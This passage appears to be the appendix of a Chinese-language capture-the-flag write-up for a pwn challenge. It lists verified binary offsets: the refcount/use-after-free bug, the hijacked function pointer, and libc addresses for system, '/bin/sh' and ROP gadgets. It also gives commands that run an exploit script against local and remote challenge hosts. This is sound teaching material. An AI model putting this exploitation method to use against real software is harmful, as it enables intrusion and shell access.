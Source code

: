 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{附錄 A：重要 offset
一覽（全部已驗證）}\label{ux9644ux9304-aux91cdux8981-offset-ux4e00ux89bdux5168ux90e8ux5df2ux9a57ux8b49}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
PIE 相對 offset
  0x1150  system@plt                    （GOT 項在 0x4028）
  0x1390  endbr64; ret（stub，[0x40c0] 的初值）
  0x11c0  main
  0x1170  __memcpy_chk@plt
  0x1140  __stack_chk_fail@plt
  0x13a0  read_exact(fd 0)
  0x13f0  recv_message(len-prefixed)
  0x1450  send_message(len-prefixed, 明文)
  0x1510  send_message(加密)
  0x1670  handshake（nonce 交換 + 金鑰排程 + MAC 驗證）
  0x1900  指令主迴圈
  0x1a00  cmd 0x15：call [0x40c0](我們送的字串)      ✶ 觸發點
  0x1a80  cmd 0x14：clone（refcount bug）             ✶ 漏洞
  0x1ae8  cmd 0x13：free
  0x1b40  cmd 0x12：write（受 slot.size 限制）
  0x1bc0  cmd 0x11：read（UAF read）
  0x1c50  cmd 0x10：alloc
  0x1d08  cmd 0x16：dump 0x40c0..0x41b0（PIE leak）
  0x2040  S-box（256 bytes）
  0x2020  jump table（指令 0x10~0x16）
  0x2006  "/dev/urandom"   0x2004 "r"   0x2013 "true"

.bss
  0x40c0  被 cmd 0x15 呼叫的函式指標  ✶ 攻擊目標
  0x41c0  slot[16]（每個 0x10 bytes：ptr/size/refcount）
  0x42c0  收方 stream counter
  0x42c4  送方 stream counter
  0x42d0  K[16]

libc（題目附的 2.39）
  system     0x58740
  "/bin/sh"  0x1cb42f
  pop rdi;ret 0x10f75b      ret 0x2882f
\end{Verbatim}

\subsubsection{附錄
B：重現指令}\label{ux9644ux9304-bux91cdux73feux6307ux4ee4}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home/kzzz/Documents/code/ctf/sunshine/pwn6}
\BuiltInTok{printf} \StringTok{\textquotesingle{}sun\{local\_test\_flag\}\textbackslash{}n\textquotesingle{}} \OperatorTok{\textgreater{}}\NormalTok{ flag.txt      }\CommentTok{\# 本機 dummy flag}
\ExtensionTok{python3}\NormalTok{ exploit.py }\KeywordTok{|} \FunctionTok{tr} \AttributeTok{{-}d} \StringTok{\textquotesingle{}\textbackslash{}000\textquotesingle{}}               \CommentTok{\# 打本機（過濾掉結尾的二進位回音）}
\ExtensionTok{python3}\NormalTok{ exploit.py REMOTE }\KeywordTok{|} \FunctionTok{tr} \AttributeTok{{-}d} \StringTok{\textquotesingle{}\textbackslash{}000\textquotesingle{}}        \CommentTok{\# 打 chal.sunshinectf.games:26005}
\FunctionTok{cat}\NormalTok{ FLAG.txt                                    }\CommentTok{\# 真實 flag}
\end{Highlighting}
\end{Shaded}
\end{document}
